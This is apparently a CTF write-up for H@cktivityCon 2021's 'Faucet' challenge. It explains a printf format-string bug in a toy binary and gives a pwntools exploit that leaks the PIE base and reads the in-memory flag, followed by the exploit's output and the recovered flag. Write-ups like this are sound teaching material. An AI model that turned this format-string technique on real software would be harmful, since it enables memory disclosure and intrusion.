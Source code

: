 # H@cktivityCon 2021 CTF

## Faucet


> My faucet has a little leak. I really should get it fixed before it causes any damage... 
> 
> 413
> 
> [`faucet`](faucet)
>
> author: @M_alpha#3534

Tags: _pwn_ _x86-64_ _format-string_


## Summary

Basic _print arbitrary string_ with a format-string attack.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Finally, all mitigations in place.

> BTW, this is the _default_ behavior of `gcc`.

But don't panic because this is a format-string challenge.  Format-string attacks, IMHO, are the most powerful exploits because you can read and/or write any location (assuming the location is readable and/or writable).
    

### Decompile with Ghidra

```c
void buy_item(void)
{
  int iVar1;
  size_t sVar2;
  long in_FS_OFFSET;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("What item would you like to buy?: ");
  fgets(local_38,0x20,stdin);
  sVar2 = strcspn(local_38,"\n");
  local_38[sVar2] = '\0';
  iVar1 = strcmp(local_38,"hammer");
  if (iVar1 == 0) {
    hammer = 1;
  }
  else {
    iVar1 = strcmp(local_38,"wrench");
    if (iVar1 == 0) {
      wrench = 1;
    }
  }
  printf("You have bought a ");
  printf(local_38);
  puts("\n");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

The `printf(local_38);` vuln is in function `buy_item`, however our attack is limited to `0x20` (32) bytes since that is all `fgets` reads in (31 actually since `fgets` will null terminal the final byte).  But, we can buy as many items as we like.

This challenge would have been more fun if that was it, however in `main`:

```
undefined8 main(void)
{
  undefined4 uVar1;
  FILE *__stream;
  
  __stream = fopen("flag.txt","r");
  if (__stream != (FILE *)0x0) {
    fgets(FLAG,0x100,__stream);
```    

the flag is read into the global variable `FLAG`.

> Just double-click on `FLAG` in Ghidra to see that it is a global.

To print the flag we need to first leak the base process address (PIE is enabled), then we can use that to compute the location of `FLAG` and then `printf` it.

> If you're new to format-string exploits then read [dead-canary](https://github.com/datajerk/ctf-write-ups/tree/master/redpwnctf2020/dead-canary) for some examples as well as [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf) and [https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf).


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./faucet')

if args.REMOTE:
    p = remote('challenge.ctf.games', 31230)
else:
    p = process(binary.path)

# get base address
p.recvuntil(b'[5]')
p.sendlineafter(b'> ',b'5')
p.sendlineafter(b': ',b'%10$p')
p.recvuntil(b'You have bought a ')
_start = int(p.recvline().strip(),16)
binary.address = _start - binary.sym._start
log.info('binary.address: ' + hex(binary.address))

# get flag
p.recvuntil(b'[5]')
p.sendlineafter(b'> ',b'5')
p.sendlineafter(b': ',b'%00007$s' + p64(binary.sym.FLAG))
p.recvuntil(b'You have bought a ')
log.info('flag: ' + p.recvline().strip().decode())
p.close()
```

The first pass sends the format-string `%10$p`; this will leak the location of `_start` from the stack:

```
0x00007fffffffe310│+0x0000: 0x0000000068616c62 ("blah"?)	 ← $rsp, $rdi
0x00007fffffffe318│+0x0008: 0x00007ffff7e4771a  →  <puts+378> cmp eax, 0xffffffff
0x00007fffffffe320│+0x0010: 0x0000555555555740  →  <__libc_csu_init+0> endbr64
0x00007fffffffe328│+0x0018: 0x00007fffffffe360  →  0x0000000000000000
0x00007fffffffe330│+0x0020: 0x00005555555551e0  →  <_start+0> endbr64
```

> To get this stack view set a break point at the offending `printf` (i.e. `b *buy_item+183`).
>
> I'm not going to cover how to determine the offset, the links I provided above as well as many of my write ups (see [INDEX.md](https://github.com/datajerk/ctf-write-ups/blob/master/INDEX.md)) cover this in detail.

The offset is `6` (it's almost always `6` with easy CTF challenges), so counting down to `_start` we end up with `10` as the parameter to pass to `%p` to leak a base address.

With the location of `_start`, we can compute the location of the binary address.

The second pass sends the format-string `%00007$s` with the location of `FLAG` to print the flag.  The padding is required to keep the stack aligned (8 bytes for the format string followed by 8 bytes for the location of of `FLAG`).  `7` because the offset is `6`, the format string is at parameter (offset) `6` and the parameter is next at offset `7`, hence `%00007$s`.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/hacktivityctf2021/faucet/faucet'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenge.ctf.games on port 31230: Done
[*] binary.address: 0x563124cde000
[*] flag: flag{6bc75f21f8839ce0db898a1950d11ccf}
```
